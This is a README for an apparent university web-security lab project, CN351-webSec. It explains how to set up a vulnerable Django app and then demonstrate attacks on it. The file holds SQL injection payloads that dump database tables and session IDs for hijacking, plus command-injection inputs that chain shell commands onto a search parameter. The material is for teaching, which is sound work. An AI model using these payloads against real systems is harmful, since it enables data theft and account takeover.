 # CN351-webSec

## SetUp project in visual machine
1. Clone project from github to `/home/kali/`
2. Install docker and docker-compose
```bash
$ sudo apt install docker.io
$ sudo systemctl enable docker --now
$ sudo usermod -aG docker $USER

$ sudo apt install docker-compose
```
3. Run docker-compose up -d
```bash ~/CN351-webSec
$ docker-compose up -d
```
4. setup requirement
```bash ~/CN351-webSec
$ sudo apt install pkg-config
$ sudo apt install python3-venv
$ sudo apt install python3-dev

$ python3 -m venv .venv
$ source .venv/bin/activate
$ pip install -r requirements.txt
```
5. change database HOST <br>
    -- comment 'HOST': '127.0.0.1', <br>
    -- uncomment new HOST <br>
6. add service to `/etc/systemd/system`
```bash
$ cp cn351.service /etc/systemd/system
```
7. enable service
```bash
$ sudo systemctl deamon-reload
$ sudo systemctl enable cn351
$ sudo systemctl start cn351
```

## SQL Injection
1. Go to http://<target-ip/domain>/?search=
2. Try to search with SQL Injection Example:
```url
/?search=' UNION SELECT table_schema,  table_name, NULL, NULL, NULL FROM information_schema.table_constraints;
/?search=' UNION SELECT *, NULL, NULL FROM db_websec.django_session;
```
3. Change sessionid to sessionid in django_session table

## Command Injection
1. Go to http://<target-ip/domain>/logging/?search=
2. Try to search with Command Injection Example:
```url
/?search= 200 && ls -al
/?search= 404 && w
```

## Group Member
1. 6410615022   ชัญญานุช จำนงนิตย์
2. 6410615113   พิชชากานต์ ลีพุด
3. 6410685215	พชรพล ทัพผักแว่น
